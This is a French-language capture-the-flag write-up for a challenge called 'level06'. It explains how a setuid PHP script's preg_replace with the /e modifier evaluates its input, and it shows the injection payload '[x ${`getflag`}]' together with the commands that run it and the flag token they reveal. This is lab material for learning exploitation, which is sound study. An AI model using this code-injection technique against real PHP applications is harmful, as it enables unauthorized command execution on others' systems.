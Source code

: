 # LEVEL06

On trouve deux fichiers :

```
-rwsr-x---+ 1 flag06  level06 7503 Aug 30  2015 level06
-rwxr-x---  1 flag06  level06  356 Mar  5  2016 level06.php
```

Dans le fichier level06.php :

```
<?php
function y($m) { $m = preg_replace("/\./", " x ", $m); $m = preg_replace("/@/", " y", $m); return $m; }
function x($y, $z) { $a = file_get_contents($y); $a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a); $a = preg_replace("/\[/", "(", $a); $a = preg_replace("/\]/", ")", $a); return $a; }
$r = x($argv[1], $argv[2]); print $r;
?>

```

Ajout de newlines pour la visibiliter :

```
<?php
function y($m) {
	$m = preg_replace("/\./", " x ", $m);
	$m = preg_replace("/@/", " y", $m); 

	return $m; 
}

function x($y, $z) {
	$a = file_get_contents($y); 
	$a = preg_replace("/(\[x (.*)\])/e", "y(\"\\2\")", $a);
	$a = preg_replace("/\[/", "(", $a);
	$a = preg_replace("/\]/", ")", $a);
	return $a; 
}

$r = x($argv[1], $argv[2]);
print $r;
?>
```

Le modificateur /e prend une chaîne de remplacement et substitue, Il exécute ensuite eval() pour exécuter la chaîne résultante comme s'il s'agissait de code PHP, cette utilisation est maintenant DEPRECATED car il est facile d'utiliser eval de manière non sécurisée).


```
/(\[x (.*)\])/e
```

Nous devons utiliser cette regex pour exploiter une vunérabilitée.

```
[x ${`getflag`}]
```

```
echo '[x ${`getflag`}]' > /tmp/getflag

./level06 /tmp/getflag

PHP Notice:  Undefined variable: Check flag.Here is your token : wiok45aaoguiboiki2tuin6ub
```

